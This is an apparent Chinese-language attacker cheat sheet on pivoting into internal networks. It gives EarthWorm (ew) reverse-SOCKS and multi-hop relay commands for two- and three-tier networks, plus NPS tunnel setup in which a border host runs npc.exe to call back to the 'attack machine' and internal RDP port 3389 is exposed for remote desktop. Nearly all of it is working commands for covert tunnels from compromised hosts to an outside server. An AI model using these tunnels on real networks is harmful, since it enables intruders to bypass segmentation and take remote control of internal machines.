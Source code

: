 公网VPS
ew -s rcsocks -l 1008 -e 888
 
内网机器
ew -s rssocks -d vps的ip -e 888
显示ok 说明连接成功
 
我们用proxifier去连接公网的vps 的端口（1008）
就能访问内网并进行远程控制

二级网络环境

主机A：无公网IP，可以访问外网，无法访问内网资源。
主机B：只能访问内网资源，无法访问外网。
Default
VPS上：
ew -s lcx_listen -l 1080 -e 888
即在VPS中添加转接隧道，将1080端口收到的代理请求转发给888端口。
 
B主机执行，利用socksd方式启动999端口的SOCKS代理：
ew -s ssocksd -l 999
 
A主机执行，即将VPS的888端口和B主机的999端口连接起来：
ew -s lcx_slave -d VPS 的 IP 地址-e 888 -f B 主机-g 999
 
执行后运行代理工具全局即可！

三级网络环境

主机A：无公网IP，可以访问外网。
主机B：只能访问内网资源，无法访问外网，只能被A访问。
主机C：可以被B访问并能访问核心区域。
Default
在VPS上执行，将1080端口收到的代理请求转发到888端口：
ew -s rcsocks -l 1080 -e 888
 
在A主机上将VPS的888端口与B主机的999端口连接起来：
ew -s lcx_slave -d VPS -e 888 -f B主机 -g 999
 
在B主机上将999端口收到的代理请求转发到777端口：
ew -s lcx_listen -l 999 -e 777
 
在C主机上启动SOCKS5服务并反弹到777端口：
ew -s rssocks -d B -e 777

NPS隐秘隧道搭建

运行命令“nps start”启动服务端
通过8080端口访问服务端的Web界面
输入默认用户名、密码admin、123登录，登录后可以看到默认客户端连接端口为8024
添加客户端，配置唯一验证密钥，验证密钥在从客户端连接到服务端时使用，此处配置为“any”，然后开启压缩和加密传输。
最后在边界主机运行命令“npc.exe -server=192.168.1.7:8024 -vkey=any”来连接服务端
连接成功后在攻击机的Web界面可看到客户端上线

TCP隧道

客户端上线后便可以通过Web界面单击上线的客户端、查看选项、配置隧道，例如，若想访问内网主机的3389端口，则可通过TCP隧道将内网主机的3389端口映射到攻击机的1111端口，单击“新增”，配置目标“192.168.52.143:3389”，配置服务端口为“1111”
TCP隧道建立成功后，即可通过连接攻击机的1111端口来连接内网主机的远程桌面，在攻击机运行命令“rdesktop 192.168.1.7:1111”连接本地的1111端口
